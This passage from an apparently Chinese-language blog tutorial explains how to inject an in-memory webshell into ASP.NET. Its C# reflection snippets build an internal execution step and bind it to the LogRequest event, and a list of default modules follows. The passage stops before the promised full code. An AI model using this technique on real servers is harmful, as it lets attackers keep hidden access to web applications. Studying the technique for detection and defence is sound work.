 
第三步通过反射调用构造函数创建step实例

    
    
    Type syncEventExecutionStepType = httpApplicationType.GetNestedType("SyncEventExecutionStep", BindingFlags.NonPublic);  
            ConstructorInfo constructor = syncEventExecutionStepType.GetConstructor(BindingFlags.NonPublic | BindingFlags.Instance, null, new Type[] { typeof(System.Web.HttpApplication), typeof(EventHandler) }, null);  
            object step = constructor.Invoke(new object[] { httpApplicationInstance, c });  
    

最终调用AddEvent方法，将我们的step和RequestNotification类型的事件绑到一起，添加到我们的moduleContainer中

    
    
    MethodInfo getAddEventMethod = moduleContainer.GetType().GetMethod("AddEvent",BindingFlags.Instance | BindingFlags.NonPublic);  
            object[] AddEventMethodPs = { RequestNotification.LogRequest, false, step };  
            getAddEventMethod.Invoke(moduleContainer, AddEventMethodPs);  
    

这里是把事件处理方法绑定到AspNetFilterModule中的RequestNotification.LogRequest事件上，其他的module和事件都可以绑定，但是要考虑触发时机，这里选择的点是因为在HttpApplicaiton初始化过程中执行的
BuildSteps方法中提到了一系列事件方法绑定，方便注入内存马后触发事件验证是否成功注入。

![]()

在vs中ASP.NET web forms默认加载module如下

    
    
    OutputCache  
    Session  
    WindowsAuthentication  
    FormsAuthentication  
    DefaultAuthentication  
    RoleManager  
    UrlAuthorization  
    FileAuthorization  
    AnonymousIdentification  
    Profile  
    UrlMappingsModule  
    ServiceModel-4.0  
    UrlRoutingModule-4.0  
    ScriptModule-4.0  
    __DynamicModule_Microsoft.AspNet.FriendlyUrls.FriendlyUrlsModule, Microsoft.AspNet.FriendlyUrls, Version=1.0.2.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35_4c981331-8571-4eda-a0b1-c8a08b21b919  
    __DynamicModule_Microsoft.WebTools.BrowserLink.Runtime.Tracing.PageInspectorHttpModule, Microsoft.WebTools.BrowserLink.Runtime, Version=17.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a_071bf808-e9ff-4716-9075-330cc6c7d2bf  
    __DynamicModule_System.Web.WebPages.WebPageHttpModule, System.Web.WebPages, Version=3.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35_61a71c81-26f2-4327-8ed9-512c10656f3e  
    __DynamicModule_System.Web.Optimization.BundleModule, System.Web.Optimization, Version=1.1.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35_27f7cfdc-74e2-4862-  
    

最终完整代码如下
